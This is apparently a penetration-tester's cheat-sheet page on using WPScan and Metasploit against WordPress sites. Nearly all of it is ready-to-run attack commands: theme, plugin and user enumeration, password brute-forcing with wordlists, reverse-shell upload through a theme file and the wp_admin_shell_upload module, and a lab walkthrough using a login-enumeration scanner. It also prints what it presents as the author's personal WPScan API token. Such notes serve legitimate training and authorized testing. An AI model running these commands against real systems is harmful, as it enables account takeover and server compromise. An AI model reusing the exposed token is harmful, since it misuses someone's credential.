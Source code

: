 ```yaml
---
description: https://www.kali.org/tools/wpscan/
---
```


# 🔍 WPScan

```bash
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan


wpscan --url "http://<TARGET_IP>" -e t #All Themes Installed

wpscan --url "http://<TARGET_IP>" -e vt #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e p #All Plugins Installed

wpscan --url "http://<TARGET_IP>"  -e vp #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e u #WordPress Users

wpscan --url "http://<TARGET_IP>"  --passwords path-to-wordlist #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```

<pre class="language-bash"><code class="lang-bash"><strong>#User Enumeration
</strong><strong>wpscan --url https://example/ --enumerate u
</strong>
#Bruteforce
wpscan --url https://example/ --passwords wordlist.txt --usernames samson
</code></pre>

### **Enumerate and hack a web app using wpscan and metasploit**

* wpscan — api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads — url [http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH) — plugins-detection aggressive — enumerate u
* — enumerate u: Specify the enumeration of users
* API Token: Register at [https://wpscan.com/register](https://wpscan.com/register)
* Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
* service postgresql start
* msfconsole
* use auxiliary/scanner/http/wordpress\_login\_enum
* show options
* set PASS\_FILE password.txt
* set RHOST 10.10.10.16
* set RPORT 8080
* set TARGETURI [http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH)
* set USERNAME admin
* run
* Find the credential

{% embed url="https://www.kali.org/tools/wpscan/" %}

### Additional Resources

{% embed url="https://www.geeksforgeeks.org/wpscan-tool-in-kali-linux/" %}

{% embed url="https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.html" %}

{% embed url="https://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/" %}

{% embed url="https://linuxhint.com/wpscan_wordpress_vulnerabilities_scan/" %}

{% embed url="https://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/" %}





